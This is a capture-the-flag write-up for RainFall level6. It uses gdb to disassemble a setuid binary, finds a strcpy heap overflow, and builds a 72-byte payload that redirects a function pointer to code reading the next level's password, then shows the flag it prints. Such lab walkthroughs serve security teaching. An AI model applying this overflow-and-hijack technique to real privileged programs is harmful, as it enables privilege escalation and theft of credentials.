 # level6
level6@RainFall:~$ file level6 
level6: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xb1a5ce594393de0f273c64753cede6da01744479, not stripped


at start gdb show the stack trace
```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
(gdb) 
```
## steps

```bash 
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   ```
allocat 64 byte and store the address in 0x1c(%esp) "esp + 28"

```bash

   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   ```
allocat 4 byte and store the address in 0x18(%esp) "esp + 24"

```bash
0x080484a5 <+41>:	mov    $0x8048468,%edx
```

load the address of m into edx "the 4 allocation"



so the program reserve a memory space of 64 byte, and then it coppy the input expected with strcoppy to it and calls the function `m` but the n function is not being called .

```bash
(gdb) disas m 
Dump of assembler code for function m:
   0x08048468 <+0>:	push   %ebp
   0x08048469 <+1>:	mov    %esp,%ebp
   0x0804846b <+3>:	sub    $0x18,%esp
   0x0804846e <+6>:	movl   $0x80485d1,(%esp)
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave  
   0x0804847b <+19>:	ret    
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   %ebp
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave  
   0x08048467 <+19>:	ret    
End of assembler dump.
```


let check the argument passed to the system call which is 0x80485b0 content:

```bash 
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
```

```bash
level6@RainFall:~$ gdb -q ./level6 
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
(gdb) 
```

after all we need to use the strcoppy vulnerability to get to the n function , 

now lets calculate the offset and overflow it to overide the m function with the n function.

```bash
level6@RainFall:~$ gdb -q ./level6 
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) break *0x080484ca  # a breakpoint after the strcpy
Breakpoint 1 at 0x80484ca
(gdb) run $(python -c 'print "A"*64 + "BBBB"') # overflow the buffer after filling the bufferallocated with A which is 414141 pattern and then add the 4 bytes fill pattern BBBB just to visualise 
Starting program: /home/user/level6/level6 $(python -c 'print "A"*64 + "BBBB"')

Breakpoint 1, 0x080484ca in main ()
(gdb) x/wx $esp+0x18 # check the value of the esp+0x18 which is the address of the m function stored
0xbffff6d8:	0x0804a050
(gdb)  x/wx 0x0804a050
0x804a050:	0x08048468 # here it is the address of the m function stored
(gdb) x/wx $esp+0x1c # check the value of the esp+0x1c which is the address of the buffer start 
0xbffff6dc:	0x0804a008
(gdb)  x/64wx 0x0804a008 # check the content of the buffer 
0x804a008:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a038:	0x41414141	0x41414141	0x41414141	0x41414141 # here it is the buffer filled with A ends
0x804a048:	0x42424242	0x00000000	0x08048468	0x00000000 # here it is the BBBB pattern and the address of the m function stored with a 4 byes padding in between
0x804a058:	0x00000000	0x00020fa9	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0f8:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) 
```

so the offset is 64 + 8 = 72 bytes

- we will use the n function addres in little indian byte order which is 0x08048454 => 0x54 0x84 0x04 0x08


our payload is  
```bash 
$(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
```

here we go 
```bash 
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$ 
```